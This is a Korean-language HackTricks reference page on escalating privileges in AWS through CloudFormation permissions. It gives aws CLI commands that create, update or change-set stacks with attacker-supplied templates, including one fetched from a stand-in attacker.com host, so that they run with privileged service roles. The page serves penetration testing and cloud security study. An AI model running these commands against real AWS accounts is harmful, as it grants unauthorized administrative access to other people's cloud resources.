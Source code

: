 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformation에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

이 권한을 가진 공격자는 **지정된 역할의 권한으로 작업을 실행하기 위해** 자신의 서버에 호스팅된 **사용자 정의 템플릿**으로 **CloudFormation 스택**을 작성하여 **권한을 상승시킬 수 있습니다:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
다음 페이지에는 추가 권한 **`cloudformation:DescribeStacks`**가 있는 **익스플로잇 예제**가 있습니다:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**잠재적 영향:** 지정된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

이 경우 기존 cloudformation 스택을 **악용하여** 업데이트하고 이전 시나리오처럼 권한을 상승시킬 수 있습니다:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 지정된 cloudformation 서비스 역할에 대한 권한 상승.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

이 권한이 있지만 **`iam:PassRole`이 없는 경우**에도 **사용된 스택을 업데이트**하고 **이미 연결된 IAM 역할을 악용**할 수 있습니다. 이전 섹션에서 exploit 예제를 확인하세요 (업데이트에서 역할을 지정하지 마세요).

`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `UpdateStack` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할에 대한 권한 상승.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

역할을 **전달하고 ChangeSet을 생성 및 실행할 수 있는 권한**을 가진 공격자는 **새 cloudformation 스택을 생성/업데이트하고 cloudformation 서비스 역할을 악용**할 수 있습니다. CreateStack 또는 UpdateStack과 마찬가지로.

다음 exploit는 **ChangeSet 권한을 사용하여 스택을 생성하는**[ **CreateStack 변형**](./#iam-passrole-cloudformation-createstack)입니다.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 권한은 **스택에 대한 `ChangeSet` 권한을 부여**하고 공격을 수행하는 데 사용할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할에 대한 권한 상승.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

이 방법은 **IAM 역할**을 전달하지 않고 이전 방법과 유사하므로, 이미 연결된 역할을 **악용**할 수 있으며, 매개변수만 수정하면 됩니다:
```
--change-set-type UPDATE
```
**잠재적 영향:** 이미 연결된 cloudformation 서비스 역할로의 권한 상승.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

공격자는 이러한 권한을 악용하여 임의의 cloudformation 역할을 악용하기 위해 StackSets를 생성/업데이트할 수 있습니다.

**잠재적 영향:** cloudformation 서비스 역할로의 권한 상승.

### `cloudformation:UpdateStackSet`

공격자는 passRole 권한 없이 이 권한을 악용하여 연결된 cloudformation 역할을 악용하기 위해 StackSets를 업데이트할 수 있습니다.

**잠재적 영향:** 연결된 cloudformation 역할로의 권한 상승.

## 참조

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
